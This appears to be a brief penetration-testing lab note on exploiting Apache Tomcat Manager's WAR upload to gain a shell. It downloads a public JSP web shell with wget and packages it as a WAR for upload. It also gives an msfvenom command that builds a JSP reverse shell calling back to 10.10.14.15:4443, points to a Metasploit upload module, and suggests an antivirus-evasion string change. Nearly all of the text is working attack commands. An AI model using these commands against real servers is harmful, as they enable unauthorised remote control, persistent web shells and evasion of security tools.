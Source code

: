 allows us to instantly deploy new applications by uploading WAR files 


https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp

```shell-session
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
```

```shell-session
zip -r backup.war cmd.jsp 
```

and then upload the war file

go to /backup/cmd.jsp

can also msfvenom
```shell-session
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

can also use multi/http/tomcat_mgr_upload

can also try https://github.com/SecurityRiskAdvisors/cmd.jsp

we can also try to bypass av by changing
```java
FileOutputStream(f);stream.write(m);o="Uploaded:
```

to
```java
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```